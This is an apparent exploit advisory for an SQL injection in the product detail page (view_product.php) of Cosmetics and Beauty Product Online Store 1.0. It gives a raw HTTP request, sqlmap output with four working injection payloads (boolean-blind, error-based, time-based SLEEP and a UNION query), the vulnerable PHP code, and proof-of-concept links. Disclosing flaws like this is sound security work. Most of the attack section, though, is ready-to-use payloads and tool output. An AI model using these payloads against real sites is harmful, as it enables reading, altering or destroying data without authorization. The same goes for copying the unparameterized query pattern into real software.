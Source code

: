 # Exploit Title: Cosmetic and Beauty Products Online Shop 1.0 -SQL Injection

The id parameter on detail product on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Date: 
> 15 Apr 2023

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Cosmetics and Beauty Product Online Store](https://www.sourcecodester.com/php/15181/cosmetics-and-beauty-product-online-store-phpoop-free-source-code.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> view_product.php


### Description:
> The id parameter on detail product on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /cbpos/?p=view_product&id=ID_VULN
2. Copy request to a txt file and run with SQLmap
Request
```
GET /cbpos/?p=view_product&id=c4ca4238a0b923820dcc509a6f75849b HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/cbpos/
Connection: close
Cookie: eid=2; download_started=0; plupload_ui_view=thumbs; PowerBB_username=tuanth; PowerBB_password=32298fc135b3fecf012a4c27efbba188; jstree_select=1; PHPSESSID=51spndcudrtniksvqgp19cifo8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

3. Result
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=view_product&id=c4ca4238a0b923820dcc509a6f75849b' AND 3108=3108 AND 'cryv'='cryv

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: p=view_product&id=c4ca4238a0b923820dcc509a6f75849b' AND (SELECT 4233 FROM(SELECT COUNT(*),CONCAT(0x71706a6b71,(SELECT (ELT(4233=4233,1))),0x7178766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'czMR'='czMR

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=view_product&id=c4ca4238a0b923820dcc509a6f75849b' AND (SELECT 4664 FROM (SELECT(SLEEP(5)))fagQ) AND 'ueiB'='ueiB

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: p=view_product&id=-3841' UNION ALL SELECT CONCAT(0x71706a6b71,0x62564d4b78634f6d63565766636a536f6a635a766d735764704f6c65737a6b4c664e61636d4e6b70,0x7178766271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[13:06:04] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.54, PHP 8.2.0
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```
4. CODE
```
<?php 
 $products = $conn->query("SELECT p.*,b.name as bname,c.category FROM `products` p inner join brands b on p.brand_id = b.id inner join categories c on p.category_id = c.id where md5(p.id) = '{$_GET['id']}' ");
 if($products->num_rows > 0){
     foreach($products->fetch_assoc() as $k => $v){
         $$k= stripslashes($v);
     }
    $upload_path = base_app.'/uploads/product_'.$id;
    $img = "";
    if(is_dir($upload_path)){
        $fileO = scandir($upload_path);
        if(isset($fileO[2]))
            $img = "uploads/product_".$id."/".$fileO[2];
        // var_dump($fileO);
    }
    $inventory = $conn->query("SELECT * FROM inventory where product_id = ".$id." order by variant asc");
    $inv = array();
    while($ir = $inventory->fetch_assoc()){
        $ir['price'] = format_num($ir['price']);
        $ir['stock'] = $ir['quantity'];
        $sold = $conn->query("SELECT sum(quantity) FROM `order_list` where inventory_id = '{$ir['id']}' and order_id in (SELECT order_id from `sales`)")->fetch_array()[0];
        $sold = $sold > 0 ? $sold : 0;
        $ir['stock'] = $ir['stock'] - $sold;
        $inv[] = $ir;
    }
 }
 
?>
```

5. Successful exploit screenshots are below (with id parameter)
![Example Image](https://drive.google.com/uc?id=1oHt3zLrp6Xa183tPQSaNGxhhWv1mcdrL)


Video POC here:
[POC SQLi](https://drive.google.com/file/d/1IR-KPtRaTDKpOgUaMxBB1l_j_bfzZtyL/view?usp=sharing)

### Impact:
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
